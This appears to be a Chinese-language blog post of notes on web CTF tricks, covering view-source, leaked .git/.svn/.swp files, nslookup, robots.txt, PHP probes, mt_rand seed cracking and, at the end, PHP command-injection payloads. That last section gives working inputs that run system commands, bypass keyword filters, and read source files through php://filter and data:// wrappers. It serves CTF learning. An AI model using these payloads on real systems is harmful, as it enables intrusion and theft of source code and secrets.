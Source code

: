 ```yaml
---
layout: post
tags: [web]
title: "web tricks"
date: 2024-1-1
author: wsxk
comments: true
---
```


- [前言](#前言)
- [0. web起手式三件套](#0-web起手式三件套)
- [1. view-source协议](#1-view-source协议)
- [2. 文件泄露](#2-文件泄露)
- [3. url编解码](#3-url编解码)
- [4. 域名](#4-域名)
- [5. rotots协议](#5-rotots协议)
- [6. 响应码](#6-响应码)
- [7. php探针](#7-php探针)
- [8. 爆破](#8-爆破)
  - [8.1 mt\_rand()爆破](#81-mt_rand爆破)
- [9. 命令执行](#9-命令执行)


## 前言<br>
做简单的web 题目时，碰到一些有趣的trick，记录下来<br>

## 0. web起手式三件套<br>
F12查看、burpsuite抓包、dirsearch扫目录<br>

## 1. view-source协议<br>
`view-source协议是一种可以查看网页源代码的协议，可以通过在浏览器地址栏中输入view-source:网址来查看网页源代码，或者按下快捷键Ctrl+U来查看网页源代码。`<br>

## 2. 文件泄露<br>
很多情况是因为部署时，或者操作时出现了错误没有及时恢复<br>
常见的泄露方式有：<br>
```
1. .phps
2. .git
3. .svn
4. .swp //vim修改出问题导致的
5. .sql //如果开始网址大意了，就会漏sql的文件
6. 有的人不小心会把源码通过注释写到前端去，还不删除
```

## 3. url编解码<br>
https://www.cnblogs.com/liuhongfeng/p/5006341.html<br>

## 4. 域名<br>
查询域名解析地址 基本格式：nslookup host [server]<br>
查询域名的指定解析类型的解析记录 基本格式：nslookup -type=type host [server]<br>
查询全部 基本格式：nslookup -query=any host [server]<br>

## 5. rotots协议<br>
用于限定爬虫可以/不可以 爬取哪些页面的协议<br>
通常在网站的根目录下会有一个robots.txt文件<br>

## 6. 响应码<br>
301：永久重定向<br>
401：未授权<br>
403：禁止访问<br>
200：正常访问<br>

## 7. php探针<br>
PHP探针是用来探测空间、服务器运行状况和PHP信息的。探针可以实时查看服务器硬盘资源、内存占用、网卡流量、系统负载、服务器时间等信息。<br>
**探针用法：将探针的 PHP 文件上传到服务器的网站目录下，通过浏览器访问此 PHP 文件即可。**<br>
探针的默认名称为`tz.php`<br>

## 8. 爆破<br>
`Burpsuitepro`的`intruder`模块真的超级好用<br>
### 8.1 mt_rand()爆破<br>
[https://www.openwall.com/php_mt_seed/](https://www.openwall.com/php_mt_seed/)<br>
**PHP mt_rand() seed cracker**，因为php代码中的mt_rand()函数一旦种子确定，变换就是确定的！<br>

## 9. 命令执行<br>
如果网页中有命令执行相关的函数，就可以想办法绕过前期的检测(比如`正则校验`)，然后执行它！<br>
常见的`php`命令注入:<br>
```php
c=system("cat fl*g.php | grep  -E 'fl.g' "); // 获取文件的内容，然后用grep 采用正则表达式的方法，获得flag
c=system("cat fl*g.php"); // 需要采用view-source协议
c=system("tac fl*g.php"); //倒叙（行）显示文件内容

echo `cat fl''ag.p''hp`; // 反引号执行命令， 用单引号绕过flag,php不能打印的限制，需要采用view-source协议，无法对命令cat本身进行这种操作
echo `nl fl''ag.php` // nl给每个输出加上行号

c=echo scandir(".")[2]; //打印当前目录下的文件，第三个元素
c=highlight_file(next(array_reverse(scandir(".")))); //查看当前目录下的文件，倒序后，取第二个元素，然后高亮显示
c=show_source(next(array_reverse(scandir(pos(localeconv()))))); // 十分牛逼，localeconv的第一个元素是'.'，即当前目录，pos是current的别名，返回数组第一个元素，然后scandir读取当前目录，array_reverse倒序，next取下一个元素（即倒数第二个元素），show_source是highlight_file的别名显示源码
// getcwd() 函数返回当前工作目录。它可以代替pos(localeconv())
// localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."
// pos():输出数组第一个元素，不改变指针；
// current() 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样
// scandir() 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录
// array_reverse():数组逆置
// next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
// show_source():查看源码
// pos() 函数返回数组中的当前元素的值。该函数是current()函数的别名。
// 每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。
// 提示：该函数不会移动数组内部指针。
// 相关的方法：
// current()返回数组中的当前元素的值。
// end()将内部指针指向数组中的最后一个元素，并输出。
// next()将内部指针指向数组中的下一个元素，并输出。
// prev()将内部指针指向数组中的上一个元素，并输出。
// reset()将内部指针指向数组中的第一个元素，并输出。
// each()返回当前元素的键名和键值，并将内部指针向前移动。


c=eval($_GET[a]);&a=system('cat flag.php');//传入两个参数，c用于绕过校验，a才是真正的命令执行

//用include包含一个文件，文件名称由参数1决定，%0a主要是因为不能用空格分割关键字和包含文件名称了（去掉%0a也无所谓,似乎eval内会自动对include和文件名称添加空格来分隔）
//使用?>可以绕过分号，作为语句结束。原理是php在检测到?>时，会在?>前的最后一个语句自动加上; 
//php://filter/convert.base64-encode/resource=flag.php 是 PHP 中的一种流封装协议，允许你对流（例如文件读取）应用过滤器。这里就是对flag.php进行base64编码
c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php 
c=?><?=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

// data:// 这是一个数据URI方案的一部分。数据URI方案允许将小片段的数据直接嵌入到网页中，而不需要外部资源的引用
// text/plain: 这部分指定了数据的类型。在这个案例中，text/plain 表示数据是普通文本
// ;base64: 这部分指定了数据的编码方式。在这个案例中，base64 表示数据是使用 Base64 编码的
// PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=实际上是 <?php \nsystem("tac flag.php")\n?> 的base64编码
c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
c=data://text/plain,<?php system("tac fl*g.php")?>
```
